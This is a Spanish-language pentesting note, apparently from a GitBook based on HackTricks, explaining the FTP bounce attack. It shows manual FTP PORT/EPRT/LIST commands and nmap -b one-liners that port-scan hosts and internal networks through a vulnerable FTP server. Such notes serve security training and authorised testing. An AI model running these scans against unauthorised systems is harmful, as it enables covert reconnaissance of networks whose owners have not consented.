 ```yaml
---
description: >-
  Explotar el FTP Bounce Attack para escanear puertos a través de una conexión
  FTP
---
```


# FTP BOUNCE ATTACK - ESCANEO

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-ftp/ftp-bounce-attack" %}

## MANUAL

1. Conectar con la FTP vulnerable.
2. Utilizar **PORT** o **EPRT** (solo unos de ellos) para hacer al servidor establecer una conexión con la `<IP:PUERTO>` que se quiere escanear:\
   `PORT 172,32,80,80,0,8080`\
   `EPRT |2|172.32.80.80|8080|`
3. Utilizar **LIST**. Esto mandará a la conexión `<IP:PUERTO>` la lista de archivos en la carpeta actual del FTP y espera respuesta: \
   `150 File status okay` Esto quiere decir que el puerto está **abierto**.\
   `425 No connection established` Esto quiere decir que el puerto está **cerrado**.
4. En lugar de **LIST** se puede utilizar **RETR** /file/in/ftp y esperar una **respuesta similar** a la de LIST.

Ejemplo utilizando **PORT** (Puerto 8080 abierto / Puerto 7777 cerrado):

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Ejemplo con **EPRT** (Puerto 8080 abierto / Puerto 7777 cerrado):

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Ejemplo con **RETR** en vez de LIST:

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

## NMAP

```
nmap -b <name>:<pass>@<ftp_server> <victim>
nmap -Pn -v -p 21,80 -b ftp:ftp@10.2.1.5 127.0.0.1 #Scan ports 21,80 of the FTP
nmap -v -p 21,22,445,80,443 -b ftp:ftp@10.2.1.5 192.168.0.1/24 #Scan the internal network (of the FTP) ports 21,22,445,80,443
```
